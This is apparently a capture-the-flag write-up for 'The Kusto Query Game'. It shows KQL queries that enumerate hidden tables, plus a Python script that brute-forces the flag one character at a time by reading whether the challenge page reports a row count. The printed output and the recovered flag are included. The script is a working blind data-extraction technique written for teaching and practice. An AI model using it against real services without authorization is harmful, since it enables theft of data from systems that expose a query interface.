

## THE KUSTO QUERY GAME

### Solution

Solving The Kusto Query Game with the following query:

```sql
StormEvents
  | where EventId in 61032, 60904, 60913, 64588
```

where the EventIds are EventIds from StormEvents, obtained from [dataexplorer.azure.com](https://dataexplorer.azure.com/clusters/help/databases/Samples). We use a [Python script](win_game.py) to generate queries that return different row counts. The dataset with IDs is available [here](event_ids.txt).

When we win the game, we are informed that the solution is located somewhere in the database, and that we need to extract the flag from the database:



Therefore, we find the template for what the StormEvents database looks like: [dataexplorer.azure.com](https://dataexplorer.azure.com/clusters/help/databases/Samples). This service can also be used to test KQL queries before running them on the website.

You can search for strings in all columns of a table as follows:

```sql
StormEvents | where * contains "a"
```

This lets us know how many rows contain `a`. We can use this to search for the flag:

```sql
StormEvents | where * contains "ept{"
```

This returned no results, so we check if there might be other tables to search in:

```sql
.show tables
```

The query above reveals that there are `2` tables in the database. So we try to find the name by testing typical names:

- Flag
- Flags
- Users
- Roles
- Groups

We get a match with the table `Users`. Later, we also discovered that table names can be replaced with `search *` to search all tables at once. However, since we already found the table, we just use this table name to speed up the searches. Now, we can search for the flag in the `Users` table:

```sql
Users | where * contains "ept{"
```

Here, we get 28 results. Therefore, we suspect that "fake" flags have been inserted. We narrow the search by adding `"}"` to the query:

```sql
Users | where * contains "ept{" and * contains "}"
```

Now, we get only one result, so we can confidently say this is the real flag. From here, we proceed by guessing one letter at a time in the flag until we reach `"}"`:

```python
import requests
import string
import re

def brute(url, query, word):
    for i in range(50):
        for letter in string.digits + string.ascii_lowercase + "_-?!}" + string.ascii_uppercase:
            # Replace placeholder with payload
            query_to_run = query.replace("$$", word+letter)

            response = requests.post(url, { "query": query_to_run})
            if response.status_code == 200:
                # Regex match to see if there was a result
                if re.search(r'<h2>The row count for your query was \d+', response.text):
                    word += letter
                    print(word)
                    if(letter == "}"): return word
                    break
            else:
                print("error at", word)

brute("https://kqlgame.ept.gg/game", 'Users | where * contains "$$" and * contains "}"', "ept{")
```

```bash
[Running] python3 brute.py
ept{z
ept{z2
ept{z26
ept{z264
ept{z2641
...

[Done] exited with code=0 in 38.598 seconds
```

We also found that KQL accepts regex, so it should also be possible to run the letter search with significantly fewer requests.

<details>
<summary>Flag</summary>

`ept{z2641a3a}`
</details>